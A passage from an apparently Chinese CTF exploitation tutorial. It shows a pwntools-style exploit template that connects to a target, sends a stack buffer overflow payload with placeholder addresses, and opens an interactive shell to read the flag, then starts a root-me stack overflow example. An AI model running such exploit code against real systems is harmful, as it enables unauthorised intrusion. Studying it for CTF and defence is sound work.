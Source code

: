 ```
    if info != None:
        print(info + str(hex(return_address)))
    return return_address

# def get_flag(sh):
#     sh.sendline('cat /flag')
#     return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    windbgx.attach(sh)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        payload  = 'a' * 0x14 + p32(0xDEADBEEF)
        payload += p32(0x401000)
        # get_gdb(sh)
        sh.sendline(payload)
        sh.interactive()
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    os.system("")
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x06 以[root-me]Advanced stack buffer overflow为例

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E4%BF%9D%E6%8A%A4%E6%A3%80%E6%9F%A5"></a>程序保护检查
